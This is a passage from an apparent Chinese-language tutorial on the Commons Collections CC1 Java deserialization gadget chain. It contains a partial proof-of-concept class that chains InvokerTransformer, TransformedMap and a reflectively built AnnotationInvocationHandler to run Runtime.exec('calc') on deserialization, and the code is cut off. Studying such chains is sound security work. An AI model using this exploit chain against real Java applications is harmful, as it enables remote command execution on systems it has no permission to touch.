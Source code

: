 那我们就重点来关注这个`AnnotationlnvocationHandler`类中我们有什么可控的点，在他的构造函数中我们可以发现，`Map`我们完全可控，那我们就可以将前面的`transformedmap`构造进去：

但是这里注意一点，这里没有表明`public`类，所以我们只能通过反射来进行获取：

```bash
package sun.reflect.annotation;
class AnnotationInvocationHandler implements InvocationHandler, Serializable {
    private static final long serialVersionUID = 6182022883658399397L;
    private final Class<? extends Annotation> type;
    private final Map<String, Object> memberValues;

    AnnotationInvocationHandler(Class<? extends Annotation> type, Map<String, Object> memberValues) {
        Class<?>[] superInterfaces = type.getInterfaces();
        if (!type.isAnnotation() ||
            superInterfaces.length != 1 ||
            superInterfaces[0] != java.lang.annotation.Annotation.class)
            throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
        this.type = type;
        this.memberValues = memberValues;
    }
```

```bash
package exp;

import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class CC1Test {
    public static void main(String[] args) throws Exception{
        //Runtime.getRuntime().exec("calc");命令执行对应的命令；
        Runtime r = Runtime.getRuntime();//单例模式，通过对应方法创建对象
//        Class c = Runtime.class;
//        Method execMethod = c.getMethod("exec",String.class);
//        execMethod.invoke(r,"calc");

        //危险类利用测试：我们先调用InvokerTransformer的类,传入对应的参数，再找到对应的构造函数
        //public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args)//传参对应的是规定类型的数组，用来存放参数类型和参数值，所以我们要用它给的形式来进行传参；
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
        HashMap<Object,Object> map = new HashMap<>();//new一个map
        map.put("key","value");//对map进行赋值
        Map<Object,Object> transformedmap = TransformedMap.decorate(map,null,invokerTransformer);
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class,Map.class);
        annotationInvocationhdlConstructor.setAccessible(true);
        Object o = annotationInvocationhdlConstructor.newInstance(Override.class,transformedmap);
        serialize(o);
        unserialize("ser.bin");
    }


    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
```